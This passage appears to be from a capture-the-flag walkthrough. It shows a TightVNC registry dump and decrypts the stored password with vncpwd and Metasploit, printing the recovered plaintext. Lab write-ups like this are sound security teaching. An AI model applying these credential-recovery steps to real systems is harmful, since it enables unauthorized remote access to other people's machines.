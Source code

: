     "LoopbackOnly"=dword:00000000
    "AcceptHttpConnections"=dword:00000001
    "LogLevel"=dword:00000000
    "EnableFileTransfers"=dword:00000001
    "RemoveWallpaper"=dword:00000001
    "UseD3D"=dword:00000001
    "UseMirrorDriver"=dword:00000001
    "EnableUrlParams"=dword:00000001
    "Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
    "AlwaysShared"=dword:00000000
    "NeverShared"=dword:00000000
    "DisconnectClients"=dword:00000001
    "PollingInterval"=dword:000003e8
    "AllowLoopback"=dword:00000000
    "VideoRecognitionInterval"=dword:00000bb8
    "GrabTransparentWindows"=dword:00000001
    "SaveLogToAllUsersPath"=dword:00000000
    "RunControlInterface"=dword:00000001
    "IdleTimeout"=dword:00000000
    "VideoClasses"=""
    "VideoRects"=""
    

The line `"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f` jumped out as interesting.

### Crack TightVNC Password

Some reading about TightVNC shows that it stores the password in the register encrypted with a static key. There’s a bunch of tools out there to do it. I used [this](https://github.com/jeroennijhof/vncpwd). It takes a file with the ciphertext, which I created with `echo '6bcf2a4b6e5aca0f' | xxd -r -p > vnc_enc_pass`:
    
    
    root@kali# /opt/vncpwd/vncpwd vnc_enc_pass
    Password: sT333ve2
    

That command is using the `-r -p` options in `xxd` to convert from a hex
string to ran binary.

I could also just use the Bash trick to treat command output as the contents
of a file with `<( )`:

    
    
    root@kali# /opt/vncpwd/vncpwd <(echo '6bcf2a4b6e5aca0f' | xxd -r -p)
    Password: sT333ve2                       
    

[This link](https://github.com/frizb/PasswordDecrypts) shows how to do it from
within Metaspoit, and it works as well:

    
    
    msf5 > irb
    [*] Starting IRB shell...
    [*] You are in the "framework" object
    